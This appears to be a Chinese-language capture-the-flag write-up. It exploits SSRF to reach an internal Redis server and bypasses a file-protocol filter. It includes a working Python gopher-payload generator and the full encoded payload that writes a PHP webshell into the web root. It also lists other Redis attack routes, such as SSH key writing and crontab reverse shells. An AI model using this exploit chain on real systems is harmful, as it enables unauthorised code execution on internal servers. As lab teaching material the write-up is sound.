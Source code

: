 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-20
---
```


## 思路

1. 打开网页显示如下：

   <img src="images/image-20210120160201453.png" alt="image-20210120160201453" width="50%;" />

   F12后看到有提示`?secret`，则在url中加上`?secret`，可以看到如下信息，发现三个IP。

   <img src="images/image-20210120160353817.png" alt="image-20210120160353817" width="50%;" />

2. 该题将输入url传入后端，题目也提示了IP，猜测利用ssrf漏洞。

   当输入127.0.0.1时，页面上会显示别这样，说明后端会对输入的内容进行检查。

3. 尝试获取index.php源码，`file:%20///var/www/html/index.php`或`file:/var/www/html/index.php`绕过对file协议的过滤。

   分析下面源码，发现index.php过滤了file和dict协议，但没有过滤http和gopher协议。

   因此我们可以使用http来探测内网中存活的IP，以及对应开放的端口，从而猜测对应使用什么服务，查找有没有漏洞可以利用。

   ![image-20210120161502410](images/image-20210120161502410.png)

4. 利用burpsuite进行测试

   <img src="images/image-20210120162327366.png" alt="image-20210120162327366" width="60%;" />

   最后的结果为：

   <img src="images/image-20210120162607222.png" alt="image-20210120162607222" width="50%;" />

   10.69.29.5对应页面为：

   <img src="images/image-20210120162844104.png" alt="image-20210120162844104" style="zoom:50%;" />

   10.69.29.6对应页面为：

   

   <img src="images/image-20210120163014199.png" alt="image-20210120163014199" width="50%;" />

   10.69.29.7对应页面为：

   <img src="images/image-20210120163100619.png" alt="image-20210120163100619" width="67%;" />

   10.69.29.11对应页面为：

   <img src="images/image-20210120164051615.png" alt="image-20210120164051615" width="50%;" />

   这个页面提示端口，对该IP的其他端口再进行探测：

   <img src="images/image-20210120164340440.png" alt="image-20210120164340440" width="60%;" />

   另外把线程数调少，避免出现429。

<img src="images/image-20210120164455040.png" alt="image-20210120164455040" width="40%;" />



5. 扫描出来发现端口6379和80开放。

   6379是redis端口，根据[网鼎杯 玄武组 SSRFMe](./[网鼎杯%202020%20玄武组]SSRFMe.md)提过的四种利用方式：

   1. 可写webshell
   2. 写ssh公钥
   3. 写crontab反弹shell
   4. redis主从复制rce

   本题可以尝试写入webshell，利用gopher协议写入shell.php。

   生成payload的脚本如下：

   ```python
   import urllib
   protocol="gopher://"
   ip="10.69.29.11"      // 运行有redis的主机ip
   port="6379"
   shell="\n\n<?php system(\"cat /flag\");?>\n\n"
   filename="shell.php"
   path="/var/www/html"
   passwd=""
   cmd=["flushall",
   	 "set 1 {}".format(shell.replace(" ","${IFS}")),
   	 "config set dir {}".format(path),
   	 "config set dbfilename {}".format(filename),
   	 "save"
   	 ]
   if passwd:
   	cmd.insert(0,"AUTH {}".format(passwd))
   payload=protocol+ip+":"+port+"/_"
   def redis_format(arr):
   	CRLF="\r\n"
   	redis_arr = arr.split(" ")
   	cmd=""
   	cmd+="*"+str(len(redis_arr))
   	for x in redis_arr:
   		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
   	cmd+=CRLF
   	return cmd
   
   if __name__=="__main__":
   	for x in cmd:
   		payload += urllib.quote(redis_format(x))
   	print payload
   
   ```

6. 生成的payload为：

   `gopher://10.69.29.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2432%0D%0A%0A%0A%3C%3Fphp%20system%28%22cat%20/flag%22%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A`

   传入url后，再提交`http://10.69.29.11/shell.php`，即可获得flag。

## 总结

- 利用http协议探测内网开放的IP和端口。
- redis+ssrf，利用gopher协议写入webshell